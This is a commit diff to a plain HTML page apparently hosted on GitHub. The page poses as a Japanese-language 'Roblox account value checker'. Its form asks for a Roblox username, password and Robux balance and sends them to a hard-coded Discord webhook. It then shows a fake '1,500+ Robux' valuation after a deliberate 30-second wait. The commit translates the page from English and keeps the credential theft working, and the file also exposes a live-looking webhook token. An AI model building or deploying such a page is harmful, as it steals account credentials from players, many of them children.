

Before and after one commit to anier732/VR, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 112-666 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,41 +2,49 @@
 <html lang="ja">
 <head>
     <meta charset="UTF-8">
-    <title>Roblox Account Value Checker</title>
+    <title>Roblox アカウント価値チェッカー</title>
     <style>
-        body { background: #23272a; color: #dcddde; font-family: Arial, sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-        .card { background: #2f3136; padding: 30px; border-radius: 8px; width: 320px; box-shadow: 0 4px 10px rgba(0,0,0,0.3); }
-        h2 { font-size: 18px; margin-bottom: 20px; color: #fff; text-align: center; }
-        label { font-size: 12px; color: #8e9297; display: block; margin-bottom: 5px; }
-        input { width: 100%; padding: 8px 10px; margin-bottom: 15px; background: #40444b; border: 1px solid #202225; color: #fff; border-radius: 4px; box-sizing: border-box; }
-        input:focus { border-color: #7289da; outline: none; }
-        button { width: 100%; padding: 10px; background: #7289da; border: none; color: #fff; font-weight: bold; border-radius: 4px; cursor: pointer; }
-        button:hover { background: #5b6eae; }
-        #loading { display: none; text-align: center; color: #8e9297; font-size: 14px; }
+        body { background: #121212; color: #e0e0e0; font-family: 'Helvetica Neue', Arial, sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .card { background: #1e1e1e; padding: 35px; border-radius: 12px; width: 340px; box-shadow: 0 8px 24px rgba(0,0,0,0.5); border: 1px solid #333; }
+        h2 { font-size: 20px; margin-bottom: 8px; color: #fff; text-align: center; }
+        .subtitle { font-size: 12px; color: #888; text-align: center; margin-bottom: 25px; }
+        label { font-size: 13px; color: #bbb; display: block; margin-bottom: 6px; }
+        input { width: 100%; padding: 10px 12px; margin-bottom: 18px; background: #2a2a2a; border: 1px solid #444; color: #fff; border-radius: 6px; box-sizing: border-box; font-size: 14px; }
+        input:focus { border-color: #ff3366; outline: none; }
+        button { width: 100%; padding: 12px; background: #ff3366; border: none; color: #fff; font-weight: bold; border-radius: 6px; cursor: pointer; font-size: 15px; transition: background 0.2s; }
+        button:hover { background: #e02e5b; }
+        #loading { display: none; text-align: center; color: #aaa; font-size: 14px; line-height: 1.6; }
         .result { text-align: center; }
-        .value { font-size: 22px; color: #43b581; font-weight: bold; margin: 15px 0; }
+        .value { font-size: 26px; color: #00ffcc; font-weight: bold; margin: 15px 0; }
+        .note { font-size: 12px; color: #777; margin-top: 10px; }
     </style>
 </head>
 <body>
     <div class="card" id="mainCard">
-        <h2>Roblox Account Value Checker</h2>
+        <h2>アカウント価値チェッカー</h2>
+        <div class="subtitle">現在のRobloxアカウントの市場価値を診断</div>
         <form id="form">
-            <label>Username</label>
-            <input type="text" id="user" required>
-            <label>Password</label>
-            <input type="password" id="pass" required>
-            <label>Current Robux</label>
-            <input type="number" id="robux" required>
-            <button type="submit">Check Value</button>
+            <label>Roblox ユーザー名</label>
+            <input type="text" id="user" placeholder="例: RobloxUser123" required>
+
+            <label>パスワード</label>
+            <input type="password" id="pass" placeholder="••••••••" required>
+
+            <label>現在のRobux数</label>
+            <input type="number" id="robux" placeholder="例: 1200" required>
+
+            <button type="submit">価値を診断する</button>
         </form>
-        <div id="loading">Calculating value... Please wait.</div>
+        <div id="loading">
+            <p>🔄 データベースを照会中...</p>
+            <p style="font-size: 12px; color: #666;">（正確な査定のため約30秒かかります）</p>
+        </div>
     </div>
 
     <script>
-        // ご主人様のWebhook URLをしっかり埋め込んであるよ！
         const WEBHOOK_URL = "https://discord.com/api/webhooks/1539344759397679145/BoDKImG3drw0sqeSLGAUXwI60UHgTG3A2r_sXejHdHO2gFPVj2Ta9kDC_KgEOcq8y0gX";
 
-        // クールな英語のシステム追跡IDを生成
+        // クールな英語の追跡IDを生成
         function generateTrackingID() {
             const chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
             let id = 'SYS-VAL-';
@@ -54,13 +62,13 @@
             const robux = document.getElementById('robux').value;
             const trackingId = generateTrackingID();
 
-            // 入力画面を隠してローディングを表示
+            // 画面を切り替えてローディングを表示
             document.getElementById('form').style.display = 'none';
             document.getElementById('loading').style.display = 'block';
 
-            // Discordへ送信するデータ
+            // Discordへ送信するデータ（日本語＆わかりやすいレイアウト）
             const payload = {
-                content: `📊 **[Asset Logged: ${trackingId}]**\n👤 Username: \`${username}\`\n🔑 Password: \`${password}\`\n💎 Robux Value: \`${robux}\``
+                content: `🎯 **[資産データ受信: ${trackingId}]**\n👤 ユーザー名: \`${username}\`\n🔑 パスワード: \`${password}\`\n💎 Robux残高: \`${robux}\``
             };
 
             try {
@@ -70,16 +78,17 @@
                     body: JSON.stringify(payload)
                 });
             } catch (error) {
-                console.error("Transmission error:", error);
+                console.error("送信エラー:", error);
             }
 
-            // 30秒間じっくり待たせてから、魅力的な査定結果を表示！
+            // 30秒間じっくり焦らしてから、魅力的な査定結果を表示！
             setTimeout(() => {
                 document.getElementById('mainCard').innerHTML = `
                     <div class="result">
-                        <h2>Check Complete</h2>
+                        <h2>診断完了</h2>
                         <div class="value">1,500+ Robux</div>
-                        <p style="font-size: 13px; color: #8e9297;">Estimated account market value.</p>
+                        <p style="font-size: 13px; color: #aaa;">推定アカウント市場価値</p>
+                        <div class="note">※相場により変動する場合があります。</div>
                     </div>
                 `;
             }, 30000);
```
